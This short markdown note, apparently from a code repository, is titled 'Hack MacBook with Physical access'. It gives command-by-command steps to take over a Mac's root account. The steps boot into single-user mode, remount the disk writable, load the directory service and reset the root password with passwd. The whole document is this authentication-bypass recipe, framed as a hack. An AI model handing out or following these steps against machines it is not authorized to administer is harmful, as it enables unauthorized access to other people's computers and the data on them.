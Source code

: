 #Hack MacBook with Physical access

##Reboot
```command+s```
```/sbin/fsck -fy```
```/sbin/mount -uw/```
```launchctl load /System/Library/LaunchDaemons/com.apple.opendirectoryd.plist```
```passwd```
##Login as root using new Password